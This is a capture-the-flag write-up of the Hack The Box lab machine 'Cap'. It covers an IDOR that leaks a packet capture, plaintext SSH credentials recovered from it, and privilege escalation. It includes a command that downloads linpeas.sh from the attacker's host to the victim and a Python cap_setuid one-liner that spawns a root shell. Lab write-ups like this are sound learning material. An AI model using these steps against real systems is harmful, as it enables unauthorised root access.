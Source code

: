 # Cap

![](images/Cap.png)

__Machine IP__: 10.10.10.160

__DATE__ : 9/11/2019

# Machine Info
Cap is an easy difficulty Linux machine running an HTTP server that performs administrative functions including performing network captures. Improper controls result in Insecure Direct Object Reference (IDOR) giving access to another user's capture. The capture contains plaintext credentials and can be used to gain foothold. A Linux capability is then leveraged to escalate to root. 

# FootHold 

## NMAP
![](images/nmap.png)

## HTTP
![](images/dashboard.png)
After looking around I have noticed that in the security snapshot I was getting different URLs with different data types

example
10.10.10.245/data/2

## GoBuster
![](images/gobuster.png)
__NOTE: Had help was told to look at the sizes more carefully. Lost couple of hours here and decided to get hint__

we can see that there is 3 different sizes


**17144** had no packets

**17153** was data of my GoBuster

**17147** there was an interesting PCAP

# USER

## PCAP
![](images/pcap.png)
We use WireShark to open and read this file. It takes less than 2 min to see we have a user and password

we know SSH in open lets try it

After we connected to SSH we can see the user.txt

# ROOT
I have decided to run Linpeas.sh as I do manual private esc 

My folder with linpeas.sh
```bash
python3 -m http.server 8080
```
victim 
```bash
w get http:$MyIP:8080/linpeas.sh

chmod +x linpeas.sh
```


linpeas detects vulnerability in Capabilities

```bash
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

I use GTFObins select Python and Capabilities 


```bash
./python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

I get root and cat the root.txt

Machines PWNED
